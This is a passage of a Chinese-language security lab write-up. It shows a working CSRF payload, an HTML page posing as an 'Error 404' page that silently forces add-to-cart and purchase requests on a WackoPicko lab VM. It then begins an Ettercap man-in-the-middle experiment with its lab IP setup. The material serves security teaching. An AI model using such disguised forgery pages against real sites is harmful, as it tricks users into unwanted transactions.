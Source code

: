 ```html
<html> 
<head></head> 
<body onLoad='window.location="http://192.168.52.131/WackoPicko/cart/action.php?action=purchase";setTimeout("window. close;",1000)'> 
<h1>Error 404: Not found</h1> 
<iframe src="http://192.168.52.131/WackoPicko/cart/action.php?action=add&picid=17"> 
<iframe src="http://192.168.52.131/WackoPicko/cart/review.php" > 
<iframe src="http://192.168.52.131/WackoPicko/cart/confirm.php"> 
</iframe> 
</iframe> 
</iframe> 
</body>
```

5.实验结果

在用户点击两次评论后，`attack`账户增加40

![image-20220428153501481](/img/security/image-20220428153501481.png)

#### 实验二 中间人攻击

##### 2.1 使用Ettercap执行欺骗攻击

1.搭建客户机、服务机、攻击机

- 将win7虚拟机作为客户机，ip为192.168.52.133
- 将漏洞虚拟机作为服务机，ip为192.168.52.131
- 将kali作为攻击机，ip为192.168.52.132

2.启动ettercap工具，开始嗅探，捕捉当前网段存在的ip
